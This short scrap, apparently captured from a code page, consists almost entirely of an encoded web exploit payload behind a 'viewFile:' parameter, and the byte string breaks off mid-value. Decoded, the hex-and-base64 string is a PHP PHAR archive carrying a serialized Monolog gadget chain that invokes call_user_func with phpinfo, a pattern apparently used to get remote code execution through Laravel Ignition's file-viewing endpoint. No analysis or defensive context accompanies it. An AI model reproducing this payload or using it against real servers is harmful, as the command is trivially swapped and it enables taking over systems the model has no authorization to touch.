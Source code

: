 viewFile:=50=00=44=00=39=00=77=00=61=00=48=00=41=00=67=00=58=00=31=00=39=00=49=00=51=00=55=00=78=00=55=00=58=00=30=00=4E=00=50=00=54=00=56=00=42=00=4A=00=54=00=45=00=56=00=53=00=4B=00=43=00=6B=00=37=00=49=00=44=00=38=00=2B=00=44=00=51=00=72=00=5A=00=41=00=67=00=41=00=41=00=41=00=67=00=41=00=41=00=41=00=42=00=45=00=41=00=41=00=41=00=41=00=42=00=41=00=41=00=41=00=41=00=41=00=41=00=43=00=43=00=41=00=67=00=41=00=41=00=54=00=7A=00=6F=00=7A=00=4D=00=6A=00=6F=00=69=00=54=00=57=00=39=00=75=00=62=00=32=00=78=00=76=00=5A=00=31=00=78=00=49=00=59=00=57=00=35=00=6B=00=62=00=47=00=56=00=79=00=58=00=46=00=4E=00=35=00=63=00=32=00=78=00=76=00=5A=00=31=00=56=00=6B=00=63=00=45=00=68=00=68=00=62=00=6D=00=52=00=73=00=5A=00=58=00=49=00=69=00=4F=00=6A=00=45=00=36=00=65=00=33=00=4D=00=36=00=4F=00=54=00=6F=00=69=00=41=00=43=00=6F=00=41=00=63=00=32=00=39=00=6A=00=61=00=32=00=56=00=30=00=49=00=6A=00=74=00=50=00=4F=00=6A=00=49=00=35=00=4F=00=69=00=4A=00=4E=00=62=00=32=00=35=00=76=00=62=00=47=00=39=00=6E=00=58=00=45=00=68=00=68=00=62=00=6D=00=52=00=73=00=5A=00=58=00=4A=00=63=00=51=00=6E=00=56=00=6D=00=5A=00=6D=00=56=00=79=00=53=00=47=00=46=00=75=00=5A=00=47=00=78=00=6C=00=63=00=69=00=49=00=36=00=4E=00=7A=00=70=00=37=00=63=00=7A=00=6F=00=78=00=4D=00=44=00=6F=00=69=00=41=00=43=00=6F=00=41=00=61=00=47=00=46=00=75=00=5A=00=47=00=78=00=6C=00=63=00=69=00=49=00=37=00=54=00=7A=00=6F=00=79=00=4F=00=54=00=6F=00=69=00=54=00=57=00=39=00=75=00=62=00=32=00=78=00=76=00=5A=00=31=00=78=00=49=00=59=00=57=00=35=00=6B=00=62=00=47=00=56=00=79=00=58=00=45=00=4A=00=31=00=5A=00=6D=00=5A=00=6C=00=63=00=6B=00=68=00=68=00=62=00=6D=00=52=00=73=00=5A=00=58=00=49=00=69=00=4F=00=6A=00=63=00=36=00=65=00=33=00=4D=00=36=00=4D=00=54=00=41=00=36=00=49=00=67=00=41=00=71=00=41=00=47=00=68=00=68=00=62=00=6D=00=52=00=73=00=5A=00=58=00=49=00=69=00=4F=00=30=00=34=00=37=00=63=00=7A=00=6F=00=78=00=4D=00=7A=00=6F=00=69=00=41=00=43=00=6F=00=41=00=59=00=6E=00=56=00=6D=00=5A=00=6D=00=56=00=79=00=55=00=32=00=6C=00=36=00=5A=00=53=00=49=00=37=00=61=00=54=00=6F=00=74=00=4D=00=54=00=74=00=7A=00=4F=00=6A=00=6B=00=36=00=49=00=67=00=41=00=71=00=41=00=47=00=4A=00=31=00=5A=00=6D=00=5A=00=6C=00=63=00=69=00=49=00=37=00=59=00=54=00=6F=00=78=00=4F=00=6E=00=74=00=70=00=4F=00=6A=00=41=00=37=00=59=00=54=00=6F=00=79=00=4F=00=6E=00=74=00=70=00=4F=00=6A=00=41=00=37=00=63=00=7A=00=6F=00=33=00=4F=00=69=00=4A=00=77=00=61=00=48=00=42=00=70=00=62=00=6D=00=5A=00=76=00=49=00=6A=00=74=00=7A=00=4F=00=6A=00=55=00=36=00=49=00=6D=00=78=00=6C=00=64=00=6D=00=56=00=73=00=49=00=6A=00=74=00=4F=00=4F=00=33=00=31=00=39=00=63=00=7A=00=6F=00=34=00=4F=00=69=00=49=00=41=00=4B=00=67=00=42=00=73=00=5A=00=58=00=5A=00=6C=00=62=00=43=00=49=00=37=00=54=00=6A=00=74=00=7A=00=4F=00=6A=00=45=00=30=00=4F=00=69=00=49=00=41=00=4B=00=67=00=42=00=70=00=62=00=6D=00=6C=00=30=00=61=00=57=00=46=00=73=00=61=00=58=00=70=00=6C=00=5A=00=43=00=49=00=37=00=59=00=6A=00=6F=00=78=00=4F=00=33=00=4D=00=36=00=4D=00=54=00=51=00=36=00=49=00=67=00=41=00=71=00=41=00=47=00=4A=00=31=00=5A=00=6D=00=5A=00=6C=00=63=00=6B=00=78=00=70=00=62=00=57=00=6C=00=30=00=49=00=6A=00=74=00=70=00=4F=00=69=00=30=00=78=00=4F=00=33=00=4D=00=36=00=4D=00=54=00=4D=00=36=00=49=00=67=00=41=00=71=00=41=00=48=00=42=00=79=00=62=00=32=00=4E=00=6C=00=63=00=33=00=4E=00=76=00=63=00=6E=00=4D=00=69=00=4F=00=32=00=45=00=36=00=4D=00=6A=00=70=00=37=00=61=00=54=00=6F=00=77=00=4F=00=33=00=4D=00=36=00=4E=00=7A=00=6F=00=69=00=59=00=33=00=56=00=79=00=63=00=6D=00=56=00=75=00=64=00=43=00=49=00=37=00=61=00=54=00=6F=00=78=00=4F=00=33=00=4D=00=36=00=4D=00=54=00=51=00=36=00=49=00=6D=00=4E=00=68=00=62=00=47=00=78=00=66=00=64=00=58=00=4E=00=6C=00=63=00=6C=00=39=00=6D=00=64=00=57=00=35=00=6A=00=49=00=6A=00=74=00=39=00=66=00=58=00=4D=00=36=00=4D=00=54=00=4D=00=36=00=49=00=67=00=41=00=71=00=41=00=47=00=4A=00=31=00=5A=00=6D=00=5A=00=6C=00=63=00=6C=00=4E=00=70=00=65=00=6D=00=55=00=69=00=4F=00=32=00=6B=00=36=00=4C=00=54=00=45=00=37=00=63=00=7A=00=6F=00=35=00=4F=00=69=00=49=00=41=00=4B=00=67=00=42=00=69=00=64=00=57=00=5A=00=6D=00=5A=00=58=00=49=00=69=00=4F=00=32=00=45=00=36=00=4D=00=54=00=70=00=37=00=61=00=54=00=6F=00=77=00=4F=00=32=00=45=00=36=00=4D=00=6A=00=70=00=37=00=61=00=54=00=6F=00=77=00=4F=00=33=00=4D=00=36=00=4E=00=7A=00=6F=00=69=00=63=00=47=00=68=00=77=00=61=00=57=00=35=00=6D=00=62=00=79=00=49=00=37=00=63=00=7A=00=6F=00=31=00=4F=00=69=00=4A=00=73=00=5A=00=58=00=5A=00=6C=00=62=00=43=00=49=00=37=00=54=00=6A=00=74=00=39=00=66=00=58=00=4D=00=36=00=4F=00=44=00=6F=00=69=00=41=00=43=00=6F=00=41=00=62=00=47=00=56=00=32=00=5A=00=57=00=77=00=69=00=4F=00=30=00=34=00=37=00=63=00=7A=00=6F=00=78=00=4E=00=44=00=6F=00=69=00=41=00=43=00=6F=00=41=00=61=00=57=00=35=00=70=00=64=00=47=00=6C=00=68=00=62=00=47=00=6C=00=36=00=5A=00=57=00=51=00=69=00=4F=00=32=00=49=00=36=00=4D=00=54=00=74=00=7A=00=4F=00=6A=00=45=00=30=00=4F=00=69=00=49=00=41=00=4B=00=67=00=42=00=69=00=64=00=57=00=5A=00=6D=00=5A=00=58=00=4A=00=4D=00=61=00=57=00=31=00=70=00=64=00=43=00=49=00=37=00=61=00=54=00=6F=00=74=00=4D=00=54=00=74=00=7A=00=4F=00=6A=00=45=00=7A=00=4F=00=69=00=49=00=41=00=4B=00=67=00=42=00=77=00=63=00=6D=00=39=00=6A=00=5A=00=58=00=4E=00=7A=00=62=00=33=00=4A=00=7A=00=49=00=6A=00=74=00=68=00=4F=00=6A=00=49=00=36=00=65=00=32=00=6B=00=36=00=4D=00=44=00=74=00=7A=00=4F=00=6A=00=63=00=36=00=49=00=6D=00=4E=00=31=00=63=00=6E=00=4A=00=6C=00=62=00=6E=00=51=00=69=00=4F=00=32=00=6B=00=36=00=4D=00=54=00=74=00=7A=00=4F=00=6A=00=45=00=30=00=4F=00=69=00=4A=00=6A=00=59=00=57=00=78=00=73=00=58=00=33=00=56=00=7A=00=5A=00=58=00=4A=00=66=00=5A=00=6E=00=56=00=75=00=59=00=79=00=49=00=37=00=66=00=58=00=31=00=39=00=42=00=51=00=41=00=41=00=41=00=47=00=52=00=31=00=62=00=57=00=31=00=35=00=42=00=41=00=41=00=41=00=41=00=48=00=32=00=4D=00=42=00=57=00=41=00=45=00=41=00=41=00=41=00=41=00=44=00=48=00=35=00=2F=00=32=00=4B=00=51=00=42=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=43=00=41=00=41=00=41=00=41=00=48=00=52=00=6C=00=63=00=33=00=51=00=75=00=64=00=48=00=68=00=30=00=42=00=41=00=41=00=41=0